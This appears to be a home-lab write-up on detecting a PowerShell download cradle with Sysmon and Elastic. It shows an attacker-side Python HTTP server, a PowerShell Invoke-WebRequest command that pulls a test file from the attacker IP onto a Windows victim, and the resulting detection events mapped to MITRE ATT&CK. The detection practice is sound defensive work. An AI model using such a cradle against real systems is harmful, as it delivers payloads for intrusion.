



# Case 04 - PowerShell Download Cradle

## 📌 Objective

Detect and investigate PowerShell download cradle operations used to transfer malicious payloads from a remote attacker host into a Windows target endpoint using Sysmon and Elastic Stack.

---

## 💻 Lab Environment

| Machine | Role | IP Address |
| :--- | :--- | :--- |
| **Kali Linux** | Attacker / HTTP Server | `192.168.56.102` |
| **Windows 10** | Victim | `192.168.56.103` |
| **Host Laptop** | Elastic + Kibana (SIEM) | `192.168.56.1` |

---

## ⚔️ Attack Scenario & Commands Used

### Step 1: Attacker Infrastructure Setup

The attacker spun up a Python HTTP server on port **8000** to host the file `test.txt`, making it available for download by the victim.

```bash
python3 -m http.server 8000
```



### Step 2: Payload Execution via Download Cradle

On the Windows endpoint, the user executed a PowerShell command using **Invoke-WebRequest** to download the hosted file from the attacker's server and save it to a temporary directory.

```powershell
powershell.exe -nop -c "Invoke-WebRequest http://192.168.56.102:8000/test.txt -OutFile C:\Temp\test.txt"
```


The attacker's HTTP server logs the incoming request, confirming that the victim successfully accessed the hosted resource.

### Step 3: Landing Verification

Checking the destination folder (`C:\Temp\`) confirms that the downloaded file (`test.txt`) has been successfully saved on the Windows endpoint.

---


## 🔍 Detection & Key Findings

- **Detection Vectors:** Sysmon Event ID 1 (Process Creation) and Sysmon Event ID 3 (Network Connection)
- **Process Name:** `powershell.exe`
- **Trigger Command:** `Invoke-WebRequest`
- **Source IP (Victim):** `192.168.56.103`
- **Destination IP (Attacker):** `192.168.56.102`
- **MITRE ATT&CK Mapping:**
  - `T1059.001` – PowerShell
  - `T1105` – Ingress Tool Transfer

---

## 📖 Case Documentation & References

For a deeper analysis of the telemetry, detection logic, and MITRE ATT&CK mapping, refer to the supporting documentation below:

- 🕵️ **Investigation Report:** [investigation.md](investigation.md)
- 🛡️ **MITRE ATT&CK Mapping:** [mitre-mapping.md](mitre-mapping.md)
